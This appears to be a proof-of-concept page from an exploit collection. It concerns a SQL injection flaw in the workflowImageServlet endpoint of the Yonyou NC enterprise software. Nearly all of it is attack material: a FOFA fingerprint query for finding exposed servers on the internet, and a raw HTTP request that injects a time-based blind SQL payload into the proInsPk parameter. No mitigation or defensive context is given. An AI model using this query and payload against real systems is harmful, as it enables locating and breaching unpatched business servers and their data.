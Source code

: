 ## 用友NC-workflowImageServlet接口存在sql注入漏洞

## fofa
```
icon_hash="1085941792"  
```

## poc
```
GET /portal/pt/servlet/workflowImageServlet/doPost?pageId=login&wfpk=1&proInsPk=1'waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```

![image](https://github.com/wy876/POC/assets/139549762/558b09c4-0b31-4025-aa2c-61f492690a6c)
